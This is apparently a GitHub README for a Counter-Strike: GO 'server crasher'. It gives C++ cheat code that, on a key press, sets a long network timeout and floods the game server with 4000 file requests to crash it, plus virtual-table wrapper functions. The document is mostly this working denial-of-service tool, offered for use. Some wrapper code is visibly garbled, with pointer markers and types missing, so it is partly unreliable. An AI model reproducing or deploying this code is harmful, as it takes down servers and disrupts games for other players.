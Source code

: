 # csgo-server_crasher
need update enjoy :)

##Source Code C++

void miscellaneous::server_crash( ) {
static bool toggle;
if ( interfaces::input_system->button_down( buttoncode_t::KEY_F8 ) )
  toggle = !toggle;
if ( toggle ) {
auto netchannel = interfaces::clientstate->net_channel;
if ( !netchannel )
return;
//((void (__thiscall **)(int, signed int))((_DWORD )v96 + 124))(v96, 1163984896); settimeout
  netchannel->set_timeout( 3600.0f, false );
  //((void (__thiscall **)(int, char ))((_DWORD *)v96 + 248))(v96, &v91); requestfile
for ( int j = 0; j < 4000; j++ )
   netchannel->request_file( ".txt", false );
  c_notifications::get( ).add( true, color( 255, 0, 0 ), netchannel->is_timed_out( ) ? "server crashed. mode: linux " : "failed crashing the server" );
}
}

##sOURCE Code c++
void set_timeout( float seconds, bool force_exact = false ) {
  using fn = void( thiscall* )( void *, float, bool );
  return ( *( fn** ) this ) [ 31 ]( this, seconds, force_exact );
 }
 bool is_timed_out(  ) {
  using fn = bool( thiscall* )( void * );
  return ( ( fn** ) this ) [ 58 ]( this );
 }
 unsigned int request_file( const char filename, bool is_replay_demo ) {
  using fn = unsigned int( __thiscall* )( void , const char, bool );
  return ( *( fn** ) this ) [ 62 ]( this, filename, is_replay_demo );
 }
